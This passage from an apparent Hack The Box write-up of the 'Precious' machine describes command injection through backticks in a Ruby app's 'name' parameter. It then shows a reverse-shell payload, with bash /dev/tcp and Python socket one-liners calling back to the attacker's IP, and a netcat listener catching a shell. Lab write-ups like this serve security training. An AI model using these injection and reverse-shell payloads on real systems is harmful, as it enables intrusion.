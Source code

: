 ![]blog/htb_m/Precious/Pasted image 20230129212039.png)

For this vulnerability to be exploited, a URL making a get request with parameter `name` and value `%20 <command>` (encoded space, followed by the command **wrapped in backticks**) needs to be made from the vulnerable system.

So it appears that the vulnerability is due to the lack of sanitisation of the input, as backticks are used in Ruby for shell commands execution.

![](blog/htb_m/Precious/Pasted image 20230129213754.png)

To read the requests easily, I switched from the Apache server to a *simple http python* server.

```bash
$ python3 -m http.server
```

And to confirm the exploit, I ran a request with the `id` command.

![](blog/htb_m/Precious/Pasted image 20230129220150.png)

![]blog/htb_m/Precious/Pasted image 20230129220221.png)

```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.189 - - [29/Jan/2023 16:12:11] "GET /?name=%20uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 200 -
```

## Initial Access

*(A nice little tool to craft your rev shells: https://www.revshells.com/)*

To open a reverse shell, I used the following exploit:

```bash
http://10.10.14.161:8000/?name=%20`[bash -i >& /dev/tcp/10.10.14.161/4444 0>&1](<python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.161",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'>)`
```

And opened a Netcat listener:

```bash
$ nc -nvlp  9001  
listening on [any] 9001 ...
```

Then submit the payload and enjoy the magic.

```bash
$ nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.14.161] from (UNKNOWN) [10.10.11.189] 36054
$ whoami
whoami
ruby
$ pwd
pwd
/var/www/pdfapp
```
